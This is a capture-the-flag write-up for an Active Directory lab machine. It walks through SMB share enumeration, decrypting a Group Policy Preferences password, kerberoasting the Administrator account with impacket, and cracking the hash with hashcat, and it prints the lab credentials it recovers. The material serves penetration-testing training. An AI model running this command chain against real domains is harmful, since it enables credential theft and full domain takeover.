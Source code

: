 ## Walkthrough 

IP: 10.10.10.100
### Reconnaissance

Started with a Nmap scan to get all open ports along with its services and versions
```
nmap -sC -sV -A 10.10.10.100 -oA nmap/nmap_scan
```
From the scan result, it is shown that the server that we are dealing with is a Microsoft Active Directory Server 

At first glance a few notable ports and services that are interesting are: 
- SMB - 445, 139 
- Kerberos - 88 

### Enumeration 
#### SMB 
Lets start with the SMB enumeration,
1. List out all of the SMB shares 
	```bash 
	smbclient -L //10.10.10.100 
	```
	```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk 
	```
2. Check if any of the shares is accessible without credentials 
	1. `Replication` is accessible - `smbclient //10.10.10.100/Replication`  ![](assets/Pasted%20image%2020250809174212.png)
	2. From there, dump all the content within the share to host machine (for ease of viewing), here are the smb commands 
		1. `recurse ON`
		2. `mget *` - proceed the enter `y` on all the files
	3. The `active.htb` folder that was dump, hold the `Group Policies Preference (GPP)` configuration files, which happens to have the hardcoded username and password hash for a service account - `active.htb\SVC_TGS`![](assets/Pasted%20image%2020250809174231.png)
	4. This is a huge find, the `cpassword` encryption key for GPP is leaked in a Microsoft documentation - [ref](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)
	5. The password can be easily decrypted using a tool call `gpp-decrypt`, which would give us `GPPstillStandingStrong2k18` as the password 
		```
		gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'	
		```

**tldr;**
This configuration is for GPP (Group Policies Preference), the cPassword encrypted password is shown in `Group.xml` and the AES key is expose in Microsoft documentation

##### User Flag
Now that we have the credential `active.htb\SVC_TGS:GPPstillStandingStrong2k18` we can further enumerate the SMB share with a valid credential 

Using this credential, we would be able to access `Users` share, and from there we will be able to access the `SVC_TGS` directory and obtain the user flag from the Desktop  ![](assets/Pasted%20image%2020250809174242.png)
#### Kerberos 
As one of the service is running kerberos, we can try to enumerate the kerberos service also known as kerberoasting.

Within `impacket` there is a script - `GetUserSPNs` that allow user to enumerate kerberos's Service Principal Name (SPN) using a valid credentials (which we have in our case). 

```
impacket-GetUserSPNs -request -dc-host active.htb active.htb/SVC_TGS
```
![](assets/Pasted%20image%2020250809174258.png)

From that, we received the Administrator SPNs along with its hashed password which can be cracked using hashcat 

From hashcat there a few modes for kerberos, after a quick google search, the mode that can be use to crack this password is `13100`![](assets/Pasted%20image%2020250809174335.png)

Here are the result of the hashcat which would give us the credential of `Administrator:Ticketmaster1968`
```bash
hashcat -m 13100 hash.admin /usr/share/wordlists/rockyou.txt
```

```bash
hashcat -m 13100 hash.admin /usr/share/wordlists/rockyou.txt --show
```
![](assets/Pasted%20image%2020250809174346.png)
##### Root Flag
Now that we have the Administrator's credentials, we can login to the SMB again and access the Administrator's Directory ![](assets/Pasted%20image%2020250809174407.png)

and with that we have gotten both the user and root flag for this box! 
#### Troubleshoot 
1. Fixing `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` error from impacket GetUserSPNs
	1. ![](assets/Pasted%20image%2020250809174418.png)
	2. refs:
		- https://medium.com/@danieldantebarnes/fixing-the-kerberos-sessionerror-krb-ap-err-skew-clock-skew-too-great-issue-while-kerberoasting-b60b0fe20069
		- https://0xss0rz.gitbook.io/0xss0rz/pentest/protocols/kerberos-88\